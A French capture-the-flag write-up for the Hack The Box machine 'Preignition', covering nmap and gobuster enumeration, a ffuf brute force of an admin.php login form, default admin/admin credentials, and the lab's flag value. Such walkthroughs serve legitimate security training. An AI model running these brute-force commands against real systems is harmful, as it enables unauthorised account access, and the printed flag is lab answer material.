



> Plateforme : **Hack The Box** — Starting Point
> Difficulté : Very Easy

## Informations

- **Nom :** Preignition
- **IP cible :** `10.129.244.167`
- **Auteur du write-up :** 3ch0

| Flag     | Valeur                             |
| -------- | ---------------------------------- |
| **Flag** | `6483bee07c1c1d57f14e5b0717503c73` |

---

## 1. Reconnaissance

### Scan Nmap

On commence par un scan de services et de scripts par défaut :

```bash
nmap -sC -sV 10.129.244.167
```

Résultat :

```text
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.14.2
```

Un seul port ouvert : le **port 80 (HTTP)**, servi par **nginx 1.14.2**. La page d'accueil est la page nginx par défaut, ce qui laisse penser qu'il faut chercher du contenu caché.

### Énumération des répertoires (gobuster)

On énumère les fichiers et répertoires accessibles :

```bash
gobuster dir -u http://10.129.244.167/ -w /usr/share/wordlists/dirb/common.txt
```

Résultat :

```text
admin.php            (Status: 200) [Size: 999]
```

On découvre une page `admin.php`.

---

## 2. Accès — Page de login admin

En accédant à `http://10.129.244.167/admin.php`, on tombe sur une console d'administration (login **username / password**) :



Le formulaire envoie `username` et `password` en **POST**. On tente un brute force sur le mot de passe du compte `admin`.

---

## 3. Brute force du login (ffuf)

On lance un brute force HTTP POST sur le champ `password`. Une réponse « mauvais identifiants » fait 1071 octets ; on filtre donc cette taille (`-fs 1071`) pour ne garder que ce qui diffère.

```bash
ffuf -u "http://10.129.244.167/admin.php" \
  -X POST \
  -d "username=admin&password=FUZZ" \
  -w /usr/share/wordlists/rockyou.txt \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -fs 1071
```

Résultat :

```text
admin    [Status: 200, Size: 365, Words: 18, Lines: 10, Duration: 137ms]
```

La réponse de taille **365** (différente de la page d'erreur) trahit un login réussi.



> **Credentials trouvés : `admin` / `admin`**

---

## 4. Récupération du flag

En se connectant avec `admin` / `admin`, la console affiche le flag :

```text
Congratulations! Your flag is: 6483bee07c1c1d57f14e5b0717503c73
```



---

## Récapitulatif de la chaîne d'exploitation

1. **Nmap** → un seul service exposé : nginx sur le port 80.
2. **gobuster** → découverte de la page cachée `admin.php`.
3. **ffuf** → brute force du formulaire POST → credentials `admin:admin`.
4. **Login** → récupération du flag.

---

***— 3ch0***
